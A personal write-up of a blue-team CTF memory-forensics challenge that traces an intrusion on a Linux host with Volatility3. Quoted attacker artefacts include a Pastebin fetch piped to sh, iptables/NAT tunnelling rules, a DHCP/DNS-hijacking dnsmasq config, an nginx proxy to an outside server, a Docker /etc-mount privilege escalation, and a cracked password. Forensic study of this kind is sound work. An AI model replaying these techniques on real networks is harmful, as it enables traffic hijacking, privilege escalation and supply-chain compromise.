

Holmes CTF 2025
Intro
From September 22nd to September 26th, 2025 (15:00-21:00), I took part in a blue-team CTF competition on HackTheBox: Holmes CTF 2025.
There were 5 challenge sets in total. Two easy, one medium, and two hard. The challenges required diverse knowledge across DFIR, memory analysis, SOC, and reverse engineering.
I played with a team and picked one of the hard challenges: The Tunnel Without Walls, a memory analysis challenge.
Rather than presenting a sanitized walkthrough, I'll show you my actual solving process, including the methodical approach of tackling other questions when stuck, and how taking a step back sometimes reveals what was hiding in plain sight.
The challenge consisted of 10 questions analyzing a memory dump, ranging from basic system information to uncovering a sophisticated privilege escalation and supply chain attack.
Getting Started
Before even starting, I encountered my first issue: my own WiFi connection. My download speed oscillated between as low as 16KB/s and no higher than 100KB/s.
Downloading almost 1GB of challenge files wasn't going to happen like this, so I needed to think around the problem.
I hadn't used Google Colab in ages, but I remembered it helping me a lot back when I was into AI generation. Plus, Google Colab runs on a Unix-like system, which would play well with this Linux-based challenge (judging by the questions).
The setup was straightforward: wget the challenge files, git clone Volatility, and use Colab's built-in terminal. I saved important commands in code cells to avoid losing my work if the session timed out.
Downloading and finishing the setup
I set up a code cell that would download the challenge archive and rename it to a manageable name:
file = "https://ctf.hackthebox.com/challenges/58398/download?expires=..."
!wget "{file}"
!mv '<challenge>' 'challenge.zip'
!ls -la
Once I had the memory dump downloaded, it was time to dive in.
Q1
What is the Linux kernel version of the provided image? (string)
I began by unzipping the archive. The code cells were very useful for performing a few actions in succession, especially when I didn't know how long each task would take.
Besides that, an active code cell would keep the Colab session from shutting down due to inactivity, which could definitely cause issues later in the challenge.
This revealed a ~4GB memory dump file. I immediately followed up by cloning the volatility3 repo from GitHub:
git clone https://github.com/volatilityfoundation/volatility3.git
Exploring the volatility3 modules
Volatility3 has a ton of useful commands for Windows/Linux/Mac. However, some might not show up when you supply an invalid module name.
This is because when an incorrect module is supplied, volatility outputs a list of modules with similar names. For example, when trying to use a module named lin, all modules starting with Linux will be shown.
However, there's also a single non-OS bound module timeliner.Timeliner, and three Windows modules that happen to contain the lin string within their names.
A much quicker and simpler way is to use the --help switch to get a full list of available modules.
The first module shown will attempt to find Linux banners in the provided memdump. A banner like that would contain the OS name and the kernel version.
python volatility3/vol.py -f memdump.mem banners
Volatility3 successfully found banner information within the memory dump. Linux version 5.10.0-35-amd64 means the victim's computer was running Linux with kernel version 5.10.0-35-amd64.
Answer: 5.10.0-35-amd64
Q2
The attacker connected over SSH and executed initial reconnaissance commands. What is the PID of the shell they used? (number)
The first module I wanted to use after moving to Q2 was linux.pslist.PsList. This would return a list of processes captured in the memory dump, which would help tremendously with pinpointing the attacker's actions.
However, this is where I ran into my second roadblock.
Modules like pstree or pslist wouldn't run at all, displaying this error message instead. I could safely dismiss the first requirement, as I knew there was definitely a file being passed.
The second requirement though had me stumped. While I was somewhat familiar with volatility3, I'd never encountered an error related to symbol tables and frankly, I didn't have a clue what they were.
I did the only thing I knew to do whenever I got stuck... took keywords, researched, and eventually got the issue down to a manageable level.
Learning about the symbol tables
Volatility3 has to know how to walk through the memory dump. In order to do so, it needs information about the OS it came from, specifically, how data structures are laid out in memory for that particular kernel version.
This is solved by symbol tables. JSON files that contain the memory layout information for specific kernel versions. Without these, Volatility can't interpret the raw memory data correctly.
The problem? This error indicates that there are no symbol tables for the Linux kernel version from this memory dump. Luckily, I found an article explaining how to create specific symbol tables.
https://volatility3.readthedocs.io/en/latest/symbol-tables.html
I already had the kernel version from the banners module output, so I searched the web for its debug symbols package:
http://security.debian.org/debian-security/pool/updates/main/l/linux/linux-image-5.10.0-35-amd64-dbg_5.10.237-1_amd64.deb
While at it, I also downloaded the dwarf2json binary to create the necessary JSON file:
https://github.com/volatilityfoundation/dwarf2json
Now I had everything necessary to create the missing symbol table.
Creating the symbol table
First, I unpacked the .deb package with dpkg. It contains the uncompressed kernel file vmlinux in an ELF format. This file will be used to create the symbol table.
dpkg -x 'linux-image-5.10.0-35-amd64-dbg_5.10.237-1_amd64.deb' extracted_package

Dwarf2json can create symbol tables for Mac and Linux, and will accept the ELF file if the --elf flag is specified.
./dwarf2json-linux-amd64 linux --elf extracted_package/usr/lib/debug/boot/vmlinux-5.10.0-35-amd64 > table.json
I directed the output to a different file because by default, dwarf2json will return it straight to stdout, which means right back into the terminal.
The file had to be placed in the correct directory. Under volatility3/volatility3/symbols there was no Linux directory, so I created one, and moved table.json into that directory.
With everything in place, I reran the pslist module once again, expecting it to work correctly.
Finding the suspicious process
Looking at the output, I could see a suspicious process chain starting from PID 13607.
There's an sshd process (PID 13607) that spawns a bash process (PID 13608), which then spawns a su process (PID 20703), and that process spawns another bash process (PID 22714).
The transition from sshd to bash suggests that a shell was established, and the following su/bash chain looks like a privilege escalation attempt. The first bash process after SSH connection would be the attacker's initial shell.
Answer: 13608
Q3 - Part 1
After the initial information gathering, the attacker authenticated as a different user to escalate privileges.
Identify and submit that user's credentials. (user:password)
In order to see the attacker-used user, I ran the linux.bash volatility3 module. This will display all commands executed via the bash shell captured within this memory dump.
python volatility3/vol.py -f memdump.mem linux.bash
I can see someone authenticating as the user jm using su, with PID 13608, which correlates with the attacker's shell PID. If this user exists, their credentials should be stored in the /etc/shadow file of the victim's filesystem.
Volatility3 has a module named linux.pagecache.RecoverFs, which allows for recovery of the host's filesystem using only the memory dump.
After ~15 minutes, the process was done, and a compressed recovered_fs.tar.gz directory was created. I extracted it into a new recovered_fs directory.
tar -xvf recovered_fs.tar.gz -C recovered_fs
The result was a bunch of directories with GUID-like names. I can look into all of them at once by using a * character instead of the directory name.
The Invisible Root Mystery
cat recovered_fs/*/etc/shadow
As a result of the above command, each directory found under recovered_fs will be searched, and every /etc/shadow file found within will be displayed.
To my surprise, the jm user was not present in the /etc/shadow file. I was dumbfounded at this point, and couldn't imagine how the attacker could add an arbitrary user without touching /etc/shadow.
I decided to leave this question for now and try to solve the others. As it would turn out later, I had missed a pretty obvious clue that would surely lead me to the answer.
Q4
The attacker downloaded and executed code from Pastebin to install a rootkit.
What is the full path of the malicious file? (/path/filename.ext)
I had already seen the pastebin link earlier, in the linux.bash module output.
https://pastebin.com/raw/hPEBtinX|sh
The link itself is unavailable, and it wasn't archived on the wayback machine. However, the question itself gives a few important hints.
First, the result was immediately piped to sh. There would be no .sh files left on the filesystem for me to analyze, as none were created.
Second, I'm searching for a rootkit. Rootkits on Linux usually come as .ko (kernel object) files, because they are compiled kernel objects that can be loaded/removed on the fly.
For an uncompiled rootkit or its source code, I would search for a .c file. However, since it had been installed, it will most likely be a .ko file, located somewhere within the system's /lib directory.
Using volatility's rootkit detection modules
linux.lsmod.Lsmod outputs all kernel modules that have been loaded when this memory dump was taken.
python volatility3/vol.py -f memdump.mem linux.lsmod.Lsmod
There is only a single unsigned module, and it was the one used to create this memory dump. It is most likely not the target rootkit.
Depending on what kind of rootkit it is, it might be able to "hide" itself from detection. From what I understand, rootkits can employ various techniques like unlinking themselves from kernel module lists, hooking system calls to tamper with data returned to detection tools, or modifying kernel structures to remain invisible.
Since lsmod didn't show any obvious malicious modules, I was tempted to look for the rootkit file directly on the filesystem rather than relying on kernel module enumeration. However, I quickly discarded that idea.
There are many legitimate modules in the filesystem, and manually looking through all of them would be like searching for a needle in a haystack. Instead, I reached for a different volatility module that can find hidden kernel modules by directly carving memory.
python volatility3/vol.py -f memdump.mem linux.hidden_modules.Hidden_modules
This is promising! It found a different unsigned module named Nullincrevenge
I have never heard about this module before, and I could not find anything about it online.
This confirms that Nullincrevenge exists within the filesystem. Now I just had to find the full path of this kernel object file.
find recovered_fs -name "Nullincrevenge.ko"
The full path of this rootkit is /usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko. I wasn't sure what the GUID-like strings were at this point (my best guess was Docker containers), but it seemed safe to strip them from the answer.
Indeed, /usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko was the correct answer.
Q5
What is the email account of the alleged author of the malicious file? (user@example.com)
Before trying to find the rootkit's author online, I quickly ran strings against the malware, searching for the one character that always appears in emails: the @ symbol.
strings recovered_fs/92931307-c5fd-4804-94f2-a8287e677bd6/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko | grep '@'
And this worked! The author's email was embedded within the rootkit, and it was the correct answer to question 5.
Q6
The next step in the attack involved issuing commands to modify the network settings and installing a new package.
What is the name and PID of the package? (package name,PID)
I went back to the linux.bash output, and looked at what happened after the privilege escalation to jm.
There are quite a few suspicious networking-related commands here. First, by running sysctl --system, the attacker is loading system configuration - likely enabling IP forwarding (net.ipv4.ip_forward=1), though this is speculation.
The iptables rules that follow are more telling:
-
iptables -A FORWARD -i ens224 -o ens192 -j ACCEPT- Allows traffic coming from ens224 to be forwarded out through ens192 -
iptables -A FORWARD -i ens192 -o ens224 -m state --state ESTABLISHED,RELATED -j ACCEPT- Allows return traffic to come back from ens192 to ens224 -
iptables -t nat -A POSTROUTING -s 192.168.211.0/24 -o ens192 -j MASQUERADE- This NAT rule masquerades (hides the real source IP) for traffic from the 192.168.211.0/24 network going out through ens192
By creating these rules, the attacker created a seamless tunnel between the victims on subnet 192.168.211.0/24, and whatever is waiting for the traffic sent through the ens192 adapter on the compromised machine, essentially turning it into a malicious proxy.
Next, they installed dnsmasq and created a new configuration file, before restarting it to apply the new configuration. The answer to this question is most definitely dnsmasq, so I looked into pslist once again, filtering the results for its appearance.
python volatility3/vol.py -f memdump.mem linux.pslist.PsList | grep dnsmasq -C 5
The only process related to dnsmasq has PID 38687.
Answer: dnsmasq,38687
Q7
Clearly, the attacker's goal is to impersonate the entire network. One workstation was already tricked and got its new malicious network configuration.
What is the workstation's hostname?
I knew the exact location of the attacker's dnsmasq config. It was located in /etc/dnsmasq.conf, so I analyzed it first before doing anything else.
interface=ens224
dhcp-range=192.168.211.30,192.168.211.240,1h
dhcp-option=3,192.168.211.8
dhcp-option=6,192.168.211.8
no-hosts
no-resolv
server=8.8.8.8
address=/updates.cogwork-1.net/192.168.211.8
log-queries=no
quiet-dhcp
quiet-dhcp6
log-facility=/dev/null
This configuration file answers a few questions related to the attacker's goals, and sheds light on what they tried to do here:
interface=ens224- Dnsmasq runs on the ens224 interface, the internal network on which regular workstations operate. It will hand out DHCP leases as specified in the dhcp-range option.dhcp-option=3,192.168.211.8- DHCP option 3 is used to specify a default gateway for DHCP clients on the networks. In this case, the default gateway will be the compromised machine.dhcp-option=6,192.168.211.8- DHCP option 6 specifies a DNS server. Once again, it sets the compromised machine as the DNS server.address=/updates.cogwork-1.net/192.168.211.8- This is a huge red flag. Any request headed towardsupdates.cogwork-1.netwill instead be redirected back to the compromised machine itself.
The attacker also disabled logging completely to cover their tracks.
Exploring remaining dnsmasq artifacts
In the question, there was a mention of a workstation that had received the malicious network configuration. What I understood from this is that a workstation had received an address from the compromised machine.
This should be reflected in dnsmasq logs, but the attacker had effectively gotten rid of them. I searched for files related to dnsmasq within the recovered_fs directory to see what I could look into.
find recovered_fs/* -name dnsmasq*
The dnsmasq.leases file was still there and it was exactly what I needed. If a machine had received an IP from the DHCP server, it would 100% be listed in this file.

192.168.211.52 Parallax-5-WS-3
Perfect! The workstation Parallax-5-WS-3 received an IP of 192.168.211.52 from the compromised machine.
Answer: Parallax-5-WS-3
Q8
After receiving the new malicious network configuration, the user accessed the City of CogWork-1 internal portal from this workstation.
What is their username? (string)
The attacker's last actions on this machine were creating a default.conf file and running nginx in Docker on the host network with this very config file. I checked whether this file was still available, since I saw the attacker trying to delete it.
This is all coming together nicely. The nginx container is set to listen on port 80 (web) of the compromised machine, turning it into a malicious proxy.
Everything arriving on port 80 on this host gets forwarded to http://13.62.49.86:7477/ instead, with an added header of Host: jm_supply to make it appear legitimate.
However, right now I was looking for the tricked user's credentials. The full attack chain will be explained at a later step.
Looking for POST form credentials with grep
Since the POST request that the user submitted would pass through nginx at port 80, I wanted to check the web server's logs.
While I initially found nginx's log directory...
Both files were redirected to stderr/stdout, making this discovery ultimately useless.
This was the second time I was close to running out of options, but I still had one thing to try: running strings against the memory dump itself. Data can persist in memory even after logs are cleared and programs are deleted.
Knowing how credentials look in a typical POST request, I crafted a simple regex using grep to search for both username= and password=.
This requires the -E flag in grep, which enables extended regular expressions. This treats the pipe character as OR, making it search for both patterns simultaneously.
strings memdump.mem | grep -E "username=|password="
Only Mike's credentials were found, with the identical request repeated 2 additional times.
Answer: mike.sullivan
Q9
Finally, the user updated a software to the latest version, as suggested on the internal portal, and fell victim to a supply chain attack.
From which Web endpoint was the update downloaded?
Now we move to the final phase of the attack, the actual supply chain compromise. Since I knew the victim's IP address, I used a recursive grep against the recovered_fs directory to search for the IP string.
grep -r "192.168.211.52" recovered_fs/*
The answer was quickly found in the logs of a docker container. Seeing as the memdump also matched, I could've just used strings on it like in the previous task to find the same answer.
Answer: /win10/update/CogSoftware/AetherDesk-v74-77.exe
Q10
To perform this attack, the attacker redirected the original update domain to a malicious one.
Identify the original domain and the final redirect IP address and port. (domain,IP:port)
This can be answered without much more analysis. I had every bit of knowledge I needed to solve this after answering almost every other question.
The original domain was found in the dnsmasq.conf file:
address=/updates.cogwork-1.net/192.168.211.8
And it was updates.cogwork-1.net. The next part, the final IP/port of the malicious server, was found in the nginx config within /tmp/default.conf:
proxy_pass http://13.62.49.86:7477/;
The server which distributed the malicious file was located at 13.62.49.86:7477
Answer: updates.cogwork-1.net,13.62.49.86:7477
And while this was technically the last question... I still had one unsolved. Question 3.
Q3 - Part 2
Back at question 3, I decided to look through the linux.bash output again.

I looked at the bash module output once again, and this time, the Docker command caught my attention.
Let me break down what it does:
docker run -v /etc/:/mnt -it alpine
The attacker mounted the host's /etc directory inside the container at /mnt. With -it, they gained an interactive terminal on the container.
I decided to use a recursive grep in the container directories to find any mention of jm.
And this revealed just how close I was to solving the question earlier. In the container's /mnt directory, which was actually the mounted /etc directory of the host, the attacker had added a new root user into the /etc/passwd file.
Bingo! The elusive root user JM was created here, and used by the attacker for privilege escalation.
This is just an MD5 hash, so cracking it should not be too hard. I'll need a tool to do that though, and I decided to go with John the Ripper this time. I also downloaded rockyou.txt to increase my chances of cracking the hash (let's hope Google won't ban me for this).
john hash -w=rockyou.txt

The hash cracked, revealing the credential pair of jm:WATSON0
Answer: jm:WATSON0
Final words
I really liked this challenge! Before I've never actually done a memory analysis challenge based on a Linux-OS, only Windows ones. It was very fun to learn about certain hurdles and new concepts like the symbol tables.
See you all in the next competition!